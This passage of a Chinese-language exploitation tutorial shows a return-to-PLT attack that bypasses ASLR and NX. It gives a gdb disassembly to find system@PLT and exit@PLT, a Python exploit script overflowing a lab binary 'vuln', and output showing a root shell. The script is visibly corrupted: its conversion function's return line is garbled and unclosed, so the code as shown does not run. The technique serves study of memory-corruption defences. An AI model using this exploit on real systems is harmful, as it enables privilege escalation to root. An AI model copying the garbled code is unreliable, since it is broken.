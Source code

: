 现在反汇编可执行文件'vuln'，我们可以找到‘system@PLT’和 ‘exit@PLT’的地址。

```asm
(gdb) disassemble shell
Dump of assembler code for function shell:
 0x08048474 <+0>: push %ebp
 0x08048475 <+1>: mov %esp,%ebp
 0x08048477 <+3>: sub $0x18,%esp
 0x0804847a <+6>: movl $0x80485a0,(%esp)
 0x08048481 <+13>: call 0x8048380 <system@plt>
 0x08048486 <+18>: movl $0x0,(%esp)
 0x0804848d <+25>: call 0x80483a0 <exit@plt>
End of assembler dump.
(gdb)
```


使用这些地址我们可以写一个绕过ASLR（和NX 位）的漏洞利用代码！

利用代码：

```py
#exp.py
#!/usr/bin/env python
import struct
from subprocess import call

system = 0x8048380
exit = 0x80483a0
system_arg = 0x80485b5     #Obtained from hexdump output of executable 'vuln'

#endianess convertion
def conv(num):
 return struct.pack("<I",numystem + exit + system_arg
buf = "A" * 272
buf += conv(system)
buf += conv(exit)
buf += conv(system_arg)

print "Calling vulnerable program"
call(["./vuln", buf])
```

执行上面的exploit程序给我们root shell，如下所示：

```
$ python exp.py 
Calling vulnerable program
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA������
# id
uid=1000(sploitfun) gid=1000(sploitfun) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare),1000(sploitfun)
# exit
$
```

注意：为了获得这个root shell，可执行文件应包含`system@PLT`和`exit@PLT`代码。在第三部分中，我将讨论GOT覆盖和GOT解引用技术，即使在可执行文件中不存在必需的PLT存根代码，并且当ASLR被打开时，也可以帮助攻击者调用libc函数。